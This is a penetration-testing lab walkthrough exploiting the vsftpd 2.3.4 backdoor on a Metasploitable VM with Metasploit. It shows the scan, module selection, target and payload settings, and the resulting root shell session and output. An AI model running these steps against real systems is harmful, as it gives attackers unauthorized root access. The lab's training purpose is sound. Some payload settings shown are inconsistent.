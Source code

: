 ```yaml
---
title: Metaploitable Port 21/tcp - vsftpd
updated_at: 2013-11-18 10:28am
---
```


# Metaploitable Port 21/tcp - vsftpd

Start with a more complete scan:

```bash

msf > nmap -sV  10.13.37.136 -p 21
[*] exec: nmap -sV  10.13.37.136 -p 21


Starting Nmap 6.40 ( http://nmap.org ) at 2013-11-12 10:34 EST
Nmap scan report for 10.13.37.136
Host is up (0.0018s latency).
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
Service Info: OS: Unix
```

Next, try and search for a relevant exploit:

```bash
msf > search vsftpd

Matching Modules
================

   Name                                  Disclosure Date  Rank       Description
   ----                                  ---------------  ----       -----------
   exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  VSFTPD v2.3.4 Backdoor Command Execution
```

Oh good! It found something so lets configure it to use
`exploit/unix/ftp/vsftpd_234_backdoor`

```bash 
msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(vsftpd_234_backdoor) >
```

Set the remote (target) port and address and the local receiver host ip:

```bash
msf exploit(vsftpd_234_backdoor) > set RHOST = 10.13.37.136
RHOST => = 10.13.37.136
msf exploit(vsftpd_234_backdoor) > set RPORT = 21
RPORT => = 21
msf exploit(vsftpd_234_backdoor) > set LHOST 10.13.37.116
LHOST => 10.13.37.116
```

Search for aan appropriate payload. _Note: this is done from bash, not from
inside `msfconsole`.

```bash
$ msfpayload -l | grep unix
    ...
    ...
    cmd/unix/interact
    ...
    ...
```

Set the payload as well.

```bash
msf exploit(vsftpd_234_backdoor) > set PAYLOAD cmd/unix/reverse_bash
PAYLOAD => cmd/unix/interact
```

Review settings ...

```bash
msf exploit(vsftpd_234_backdoor) > set

Module: unix/ftp/vsftpd_234_backdoor
====================================

  Name                   Value
  ----                   -----
  ...
  LHOST                  10.13.37.116
  PAYLOAD                cmd/unix/interact
  RHOST                  10.13.37.136
  RPORT                  21
  ...
```

... And exploit!

```bash
msf exploit(vsftpd_234_backdoor) > exploit

[*] Banner: 220 (vsFTPd 2.3.4)
[*] USER: 331 Please specify the password.
[+] Backdoor service has been spawned, handling...
[+] UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 2 opened (10.13.37.116:54285 -> 10.13.37.136:6200) at 2013-11-12 11:04:25 -0500

whoami
root
ifconfig eth0
eth0      Link encap:Ethernet  HWaddr 00:0c:29:e0:62:7f
          inet addr:10.13.37.136  Bcast:10.13.37.255  Mask:255.255.255.0
          ...

exit

[*] 10.13.37.136 - Command shell session 2 closed.  Reason: Died from EOFError

```

Hurray!

